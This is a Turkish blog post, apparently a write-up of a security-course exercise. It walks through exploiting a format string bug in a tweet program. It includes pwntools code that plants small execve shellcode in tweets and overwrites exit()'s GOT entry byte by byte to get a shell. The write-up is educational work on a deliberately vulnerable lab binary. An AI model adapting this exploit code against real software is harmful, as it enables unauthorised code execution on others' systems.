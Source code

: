 ```yaml
---
title: "Savaş Oyunları: Format İpliklerinin Dönüşü Part III"
tags: ['pwn']
date: 2018-12-13
---
```


## Table of contents

<TOCInline toc={props.toc} exclude="Overview" toHeading={2} />

Admin olmayı başardım ancak bu tek başına birşey ifade etmiyor. Çünkü program admin olan bir kullanıcıya tweetlerin adreslerini göstermekten başka bir fonksiyon sunmuyor. Programda zafiyetler var mı incelemem gerekecek.

<div>
![img](/static/images/2018-12-13-rpisec_project1_pt3/imback.gif)
</div>

İlk aradığım zafiyet türü buffer overflow. Ancak programı yazan kişi gayet iyi yazmış, tüm inputlar bufferların uzunluğuna göre alınıyor. İkinci olarak printf tarzı fonksiyonlarda yanlış kullanım var mı diye ararken sym.print_menu altında dikkatimi şu kısım çekiyor:

<div>
![img](/static/images/2018-12-13-rpisec_project1_pt3/1.png)
</div>

Bu kısım menüdeyken küçük penguenin yanına son girdiğimiz tweeti yazdırıyor. Ancak normal kullanıcı için sağdaki, admin olan kullanıcılar için ise soldaki blok çalışıyor. Küçük bir problem var, soldaki blokta tweetim printf fonksiyonuna ilk argüman olarak veriliyor. Bu da demektir ki:

FORMAT STRING ZAFİYETİ BULDUM!!

Küçük sevinç çığlıklarından sonra bu zafiyeti nasıl kullanacağımı planlamam lazım. İlk deneyeceğim şey GOT tablosundan bir fonksiyonun adresini değiştirip kendi yazdığım shellcode'a yönlendirmek. Bunun için shellcode'umu tweetlerin içinde tutabilirim. Tek sorun, tweetler 16 byte boyutunda. Bütün bunları hesaba katıp kendime bir yol çizdim:

- Shellcode'u tweet olarak programa ver.
   - 16 byte bir shellcode için küçük olacak. "/bin/sh" kısmını önden bir tweete yükleyip kodun kalanını sonraki tweette saklayabilirim.
- Son tweet ile format string zafiyetini kullanıp sym.exit()'in GOT girdisini shellcode'a yönlendir.
- Programdan çıkış yaparak exit() fonksiyonunun çağrılmasını sağla.


## 1. Shellcode'un programa yüklenmesi
Python scriptime debug modunu açıp "/bin/sh" tweetini atan kısmı ekliyorum:

```python
log.info(io.recv())
io.sendline("6")
log.info(io.recvuntil("Enter Choice: "))
io.sendline("1")
# program son karaktere mudahele ediyor
io.sendline("/bin/sh\x00/")
```

Hemen ardından tweetin bellekteki adresini okumam gerekecek.

```python
io.recv()
io.sendline("2")
tweet_list = io.recv()
binsh = int(tweet_list.split("\n")[-7].split(" ")[-1], 16)
log.info("binsh address: {}".format(hex(binsh)))
```

Şimdi shellcode'umu oluşturup programa verebilirim.

### Zeytinli shellcode tarifi:

```python
shellcode  = "xor ecx, ecx\n"
shellcode += "imul ecx\n"
shellcode += "mov al, 0x0b\n"
shellcode += "mov ebx, 0x{}\n".format(binsh)
shellcode += "int 0x80\n"
shellcode = asm(shellcode)
```

13 byte'lık shellcode'um hazır. Şimdi bunu programa yüklüyorum.

```python
io.recv()
io.sendline("1")
io.sendline(shellcode)
io.sendline("")
```

Shellcode'umun adresini de okuyorum.

```python
io.recv()
io.sendline("2")
tweet_list = io.recv()

shellcode_address = int(tweet_list.split("\n")[-8].split(" ")[-1], 16)
log.info("Shellcode @{}".format(hex(shellcode_address)))

io.send("\n")
```

## 2. Format string zafiyetini kullanarak GOT girdisini değiştirmek

Sırada exit fonksiyonunun GOT girdisini değiştirmek için format string zayifetini kullanmam gerekiyor. Pwntools bunun için hazır fonksiyonlara sahip ama şimdilik kendi kodlarımla idare edeceğim. Ancak yine 16 byte sınırı ile karşı karşıyayım. Birden fazla tweet kullanarak adresi parça parça değiştirmek zorunda kalacağım.

```python
exitgot = binary.got["exit"]
# byte byte yaziyorum
for i in range(4):
    io.recv()
    io.sendline("1")

    # padding gerekli
    line  = "A"
    line += p32(exitgot+i)
    byte2write = (shellcode_address & (0xff << i*8)) >> i*8
    log.info("Writing {} to address {}".format(hex(byte2write),
                                               hex(exitgot+i)))
    byte2write |= 0x100
    byte2write -= len(line)
    line += "%" + str(byte2write) + "x"
    line += "%8$hhn"

    io.sendline(line)
    io.sendline("")

io.interactive()
```

## 3. Programdan çıkış(!)

Scriptim buraya kadar çalıştıktan sonra programdan çıkış yapmak istediğimde exit() fonksiyonunu çağırmaya çalışacak ve shellcode'uma düşecek.

<div>
![img](/static/images/2018-12-13-rpisec_project1_pt3/2.png)
</div>

Ve shellcode çalıştı. Projeyi sonunda tamamladım. Scriptin en son halini [githubda](https://gist.github.com/erfur/40809ac0184070341ee27279ab2402dc) bulabilirsiniz. İlk konular ile alakalı bir proje olduğu için güncel korumaların hepsi kapalıydı (ASLR dahil). İleride daha güncel yöntemlerin kullanıldığı projelerde görüşmek üzere.

Connection closed by foreign host.